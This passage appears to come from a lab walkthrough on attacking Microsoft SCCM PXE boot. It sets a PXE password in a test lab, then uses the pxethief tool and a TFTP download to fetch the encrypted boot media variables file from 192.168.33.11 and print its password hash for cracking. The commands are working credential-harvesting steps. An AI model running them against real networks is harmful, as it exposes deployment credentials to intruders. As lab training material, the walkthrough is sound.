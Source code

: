 - In the PXE tab select require a password and enter a password for pxe (password: "hello")

![set_pxe_password.png](/assets/img/set_pxe_password.png)

- Select apply, Wait a few minutes for the deployment propagation

- Now if we retry from windows we get an error as a password is detected:

```powershell
py.exe pxethief.py 2 192.168.33.11
```

![pxe_thief_with_password.png](/assets/img/pxe_thief_with_password.png)

- Let's download the file and print the hash with pxethief

```powershell
tftp -i 192.168.33.11 GET "\SMSTemp\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var" "2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var"
py.exe pxethief.py 5 '.\2024.03.28.03.27.34.0001.{BC3AEB9D-2A6C-46FB-A13E-A5EEF11ABACD}.boot.var'
```

![pxe_gethash.png](/assets/img/pxe_gethash.png)
